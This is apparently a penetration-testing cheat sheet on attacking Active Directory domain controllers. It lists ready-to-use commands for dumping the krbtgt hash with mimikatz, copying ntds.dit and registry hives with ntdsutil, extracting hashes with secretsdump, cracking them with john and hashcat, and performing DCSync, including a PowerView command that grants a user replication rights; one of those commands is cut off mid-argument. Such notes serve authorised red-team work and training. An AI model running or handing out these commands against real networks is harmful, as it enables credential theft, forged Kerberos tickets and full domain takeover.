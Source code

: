 # Domain Controller specific

## TGT Dump

dump the hash used by the domain controller to sign Kerberos tickets. This allows an attacker to create custom tickets and impersonate other users or gain access to different services/hosts

```
lsadump::dcsync /user:krbtgt
sekurlsa::krbtgt
lsadump::lsa /inject /name:krbtgt
```

## NTDS Dump

NTDS is an encrypted database containing information about the structure and elements of the AD.

In order to dump the stored hashes we need to extract the following files.

```
C:\Windows\NTDS\ntds.dit
C:\Windows\System32\config\SYSTEM
C:\Windows\System32\config\SECURITY
```

To dump the required files use the following command in PowerShell

```
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full <dump folder>' q q"
```

Extract the hashes

```
secretsdump.py -security <security file> -system <system file> -ntds <path to ntds.dit> LOCAL
```

Crack the hashes.  In order to obtain the passwords we need only the NT part of the hash. given an hash with the following structure `AAAA:BBBB` the actual string to bruteforce is the one to the right of the column

```
john -format=NT -wordlist=<wordlist> <hashfile>
hashcat -m 1000 -a 0 --force --show --username <hash> <wordlist> #rows follow the format <user>:<hash>
```

## DC Sync&#x20;

To execute this attack we need to operate under a user with the `Replicating Directory Changes All` and `Replicating Directory Changes` privileges. By default Local and Domain Administrators own these privileges.

Find users with the required privileges with PowerView

```
Get-ObjectACL -DistinguishedName "dc=<domain>,dc=local" -ResolveGUIDs | ? {($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll') }
```

If the current user lacks the required permissions run this command on the DC to add them.

```
Add-ObjectAcl -TargetDistinguishedName "dc=<domain>,dc=local" -PrincipalSamAccountName <user
```

### Run on DC

```
lsadump::dcsync /user:krbtgt                    //Kerberos TGT
lsadump::dcsync /user:<user>                    //get user info 
lsadump::dcsync /domain:htb.local /all /csv     //dump all users
```

### Run remotely

```
secretsdump.py -just-dc         //dump NTDS
secretsdump.py -just-dc-ntlm    //dump TGT
```
